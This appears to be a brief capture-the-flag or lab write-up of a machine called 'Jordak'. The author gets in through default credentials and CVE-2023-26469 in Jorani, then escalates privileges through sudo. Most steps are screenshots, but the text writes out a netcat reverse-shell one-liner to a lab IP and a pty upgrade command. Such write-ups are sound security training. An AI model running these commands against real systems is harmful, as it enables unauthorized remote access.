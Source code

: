 # Jordak

So i start enumeration and find 2 open ports:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the webpage, we see a normal apache server webpage, and after fuzzing for a bit, we find a .git directory that redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I go on internet and look for default credentials:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see that it is Jorani V1, so i look for exploits that i can maybe leverage and end up on this CVE:

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-26469" %}

I tried soe POCs and the one from orangecyberdefense was the best in my opinion:

{% embed url="https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/CVE_Jorani.py" %}

It gave me a pseudo term:&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can catch my local.txt flag with ease but the shell is very restrictive so i go and get a reverse shell with the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 1234 >/tmp/f
```

and upgrade my low interactive shell with a full tty command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

then i look at my sudo rights:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and see that there are exploits to elevate our shell:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we adapt the command to fit to our rights and bam:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Onto the next one

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
